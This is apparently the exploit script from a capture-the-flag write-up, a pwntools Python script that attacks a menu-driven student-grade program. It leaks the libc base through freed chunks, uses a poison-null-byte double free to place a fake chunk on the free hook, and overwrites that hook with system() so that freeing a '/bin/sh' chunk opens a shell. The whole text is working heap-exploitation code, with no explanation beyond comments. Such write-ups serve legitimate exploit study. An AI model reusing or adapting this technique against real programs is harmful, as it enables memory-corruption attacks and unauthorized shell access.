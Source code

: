 ```python
def modify(index):
    r.sendlineafter("[+] input menu.\n", 'm')
    r.sendlineafter("[+] input student index.\n", str(index))

# libc leak
for i in range(8):
    add("N1be", 21, 13)
    for j in range(13):
        input_grade("", 100)

for i in range(8):
    delete(7 - i)

print_info(0)
r.recvuntil("[+] name: ")
libc = u64(r.recvn(6).ljust(8, b'\x00')) - 0x1ebbe0 # libc base
log.info("libc base: " + hex(libc))
freehook = libc + offset_freehook # address of free hook
system = libc + offset_system # address of system()

# double free
add("N1be", 21, 6) # index: 0
for i in range(6):
    input_grade("", 100)

add("N1be", 21, 6) # index: 1
for i in range(6):
    input_grade("", 100)

add("N1be", 21, 5) # index: 2
for i in range(5):
    input_grade("", 100)
delete(2)

delete(1)
modify(0)
for i in range(5):
    input_grade("", 100)
input_grade('a' * 0x1f, 100) # poison NULL byte
delete(1) # double free

# allocate fake chunk on free hook
add(p64(freehook), 21, 6) # index: 0
for i in range(6):
    input_grade("", 100)

add("/bin/sh", 21, 5) # index: 1
for i in range(5):
    input_grade("", 100)

add(p64(system), 21, 5) # index: 2
for i in range(5):
    input_grade("", 100)

# get shell
delete(1) # system("/bin/sh")

r.interactive()
```

![image](https://user-images.githubusercontent.com/59759771/98462881-c8d6e800-21fa-11eb-8145-6b9a0fc65bd1.png)